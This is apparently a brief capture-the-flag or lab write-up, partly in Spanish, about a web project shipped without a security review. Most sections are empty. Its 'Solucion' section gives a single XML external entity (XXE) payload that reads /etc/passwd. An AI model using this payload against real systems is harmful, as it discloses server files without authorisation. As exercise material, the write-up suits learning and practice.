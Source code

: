 ## Objetivo

the web project was rushed and no security assessment was done. 

## Datos de Acceso al Nivel

Instancia
## Solucion

```
<!DOCTYPE foo [<!ENTITY toreplace SYSTEM"/etc/passwd"> ]>
```

## Notas Adicionales



## Referencias